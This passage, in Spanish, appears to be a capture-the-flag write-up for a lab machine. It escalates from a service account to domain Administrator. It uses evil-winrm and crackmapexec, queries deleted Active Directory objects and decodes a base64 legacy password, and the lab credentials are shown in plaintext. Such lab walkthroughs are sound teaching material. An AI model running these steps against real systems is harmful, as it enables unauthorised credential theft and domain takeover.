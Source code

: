 ```bash
evil-winrm -i 10.10.10.182 -u 'arksvc' -p 'w3lc0meFr31nd'
```

Enumeramos

```powershell
cd C:\Users\Administrator
dir
whoami /priv
```

Aqui vemos que el usuario es parte del grupo **AD Recycle Bin** y esto nos hace pensar que los ficheros que hemos visto
contiene un log en el cual habia el usuario **AdminTemp** en el **Recycle Bin**. Esto podria permitirnos buscar Objetos
borrados. Buscando por internet encontramos un comando:

```powershell
Get-ADDObject -Filter 'Deleted -eq $true' -IncludeDeletedObjects
```

Encontramos el usuario borrado pero necesitamos ver si podemos encontrar propriedades de este objeto

```powershell
Get-ADDObject -Filter 'Deleted -eq $true' -IncludeDeletedObjects -Properties *
```

Aqui encontramos su **CascadeLegacyPwd** en base64

```bash
echo "YmFDVDNyMWFOMDBkbGVz" | base64 -d; echo
```

Parece ser una contraseña. Como en el email que hemos encontrado, se supone que la contraseña es la misma que la contraseña del usuario **Administrator**.
Lo comprobamos

```bash
crackmapexec smb 10.10.10.182 -u 'Administrator' -p 'baCT3r1aN00dles'
```

y si vemos el **Pwn3d!**. Esto quiere decir que nos podemos conectar con **Evil WinRM**.

```bash
evil-winrm -i 10.10.10.182 -u 'Administrator' -p 'baCT3r1aN00dles'

whoami
#Output 
cascade\administrator
```

Ya podemos leer la flag.

